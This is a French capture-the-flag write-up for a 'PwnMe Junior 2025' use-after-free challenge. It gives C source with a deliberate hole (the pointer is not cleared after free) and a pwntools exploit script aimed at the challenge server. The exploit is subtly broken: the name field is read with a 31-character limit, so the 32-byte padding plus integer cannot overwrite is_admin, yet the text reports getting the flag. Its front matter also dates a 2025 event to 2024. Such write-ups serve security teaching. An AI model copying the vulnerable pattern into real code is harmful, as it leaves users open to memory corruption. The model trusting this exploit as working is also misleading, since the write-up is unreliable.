 ```yaml
---
title: "PwnMe Junior 2025 - Evil Hackers"
date: 2024-04-14
tags: ["use-after-free", "exploitation"]
categories: ["pwn"]
ctfs: ["pwnme-junior"]
---
```


# Write-up: Evil Hackers - PwnMe Junior 2025

## Description

Evil Hackers est un challenge de type "use-after-free" (UAF) qui simule un système de gestion d'utilisateurs vulnérable.

## Analyse du binaire

Le programme est un binaire ELF 64 bits qui offre une interface pour gérer des utilisateurs, avec plusieurs options :
1. Ajouter un utilisateur
2. Supprimer un utilisateur
3. Afficher les informations d'un utilisateur
4. Modifier le nom d'un utilisateur
5. Quitter

Voici un extrait du code source :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    int is_admin;
} User;

User* users[10] = {NULL};

void add_user(int idx) {
    if (idx < 0 || idx >= 10) {
        printf("Index invalide\n");
        return;
    }
    
    if (users[idx] != NULL) {
        printf("L'emplacement est déjà occupé\n");
        return;
    }
    
    users[idx] = malloc(sizeof(User));
    if (users[idx] == NULL) {
        printf("Erreur d'allocation mémoire\n");
        return;
    }
    
    printf("Nom de l'utilisateur: ");
    scanf("%31s", users[idx]->name);
    users[idx]->is_admin = 0;  // Les nouveaux utilisateurs ne sont pas admin
    
    printf("Utilisateur ajouté avec succès\n");
}

void delete_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    free(users[idx]);
    // Vulnérabilité: pointeur non réinitialisé après free
    
    printf("Utilisateur supprimé avec succès\n");
}

void show_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nom: %s\n", users[idx]->name);
    printf("Admin: %s\n", users[idx]->is_admin ? "Oui" : "Non");
    
    if (users[idx]->is_admin) {
        printf("Flag: PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}\n");
    }
}

void edit_user(int idx) {
    if (idx < 0 || idx >= 10 || users[idx] == NULL) {
        printf("Utilisateur invalide\n");
        return;
    }
    
    printf("Nouveau nom: ");
    scanf("%31s", users[idx]->name);
    
    printf("Nom modifié avec succès\n");
}

int main() {
    int choice, idx;
    
    while (1) {
        printf("\n===== Système de gestion des utilisateurs =====\n");
        printf("1. Ajouter un utilisateur\n");
        printf("2. Supprimer un utilisateur\n");
        printf("3. Afficher un utilisateur\n");
        printf("4. Modifier un utilisateur\n");
        printf("5. Quitter\n");
        printf("Choix: ");
        scanf("%d", &choice);
        
        if (choice == 5) break;
        
        printf("Index (0-9): ");
        scanf("%d", &idx);
        
        switch(choice) {
            case 1: add_user(idx); break;
            case 2: delete_user(idx); break;
            case 3: show_user(idx); break;
            case 4: edit_user(idx); break;
            default: printf("Option invalide\n");
        }
    }
    
    return 0;
}
```

## Vulnérabilité

La vulnérabilité principale est un Use-After-Free (UAF) : après la libération d'un utilisateur avec `delete_user()`, le pointeur `users[idx]` n'est pas mis à NULL. Cela signifie qu'il est possible d'accéder et de modifier cette zone mémoire après qu'elle ait été libérée.

## Exploitation

L'exploitation se fait en plusieurs étapes :
1. Créer un utilisateur à l'index 0
2. Supprimer cet utilisateur (libération de la mémoire)
3. Créer un nouvel utilisateur à l'index 1, qui réutilisera probablement la même zone mémoire
4. Modifier le nom de l'utilisateur à l'index 1 pour écraser la valeur `is_admin` de la structure
5. Afficher l'utilisateur à l'index 0 pour obtenir le flag

```python
from pwn import *

# Connexion au serveur
conn = remote('challenge.pwnme.fr', 1338)

# Fonction pour naviguer dans le menu
def menu(choice, idx):
    conn.sendlineafter(b"Choix: ", str(choice).encode())
    if choice != 5:  # L'option 5 ne demande pas d'index
        conn.sendlineafter(b"Index (0-9): ", str(idx).encode())

# 1. Ajouter un utilisateur à l'index 0
menu(1, 0)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user1")

# 2. Supprimer cet utilisateur (libération de la mémoire)
menu(2, 0)

# 3. Créer un nouvel utilisateur à l'index 1
menu(1, 1)
conn.sendlineafter(b"Nom de l'utilisateur: ", b"user2")

# 4. Modifier l'utilisateur à l'index 1 pour écraser la valeur is_admin
# Créer un payload qui remplit le name (32 octets) et écrit 1 dans is_admin
menu(4, 1)
payload = b"A" * 32 + p32(1)  # 32 'A' + valeur 1 pour is_admin
conn.sendlineafter(b"Nouveau nom: ", payload)

# 5. Afficher l'utilisateur à l'index 0 pour obtenir le flag
menu(3, 0)

# Récupérer et afficher le flag
conn.recvuntil(b"Flag: ")
flag = conn.recvline().strip().decode()
print(f"Flag: {flag}")

# Quitter proprement
menu(5, 0)
conn.close()
```

## Flag

En exécutant l'exploit, nous obtenons le flag : `PwnMe{us3_4ft3r_fr33_1s_d4ng3r0us}` 